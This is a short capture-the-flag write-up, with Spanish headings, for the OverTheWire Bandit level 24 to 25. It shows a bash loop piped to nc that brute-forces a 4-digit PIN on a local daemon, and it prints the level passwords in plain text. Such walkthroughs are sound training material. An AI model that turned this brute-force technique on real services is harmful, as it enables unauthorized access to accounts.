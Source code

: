 # Level24a25

## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Datos de acceso
bandit24
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Solucion
```bash
bandit24@bandit:~$ nc localhost 30002 <<< VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 1^C
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep
-v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:~$
```

p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
## Notas adicionales

## Referencias

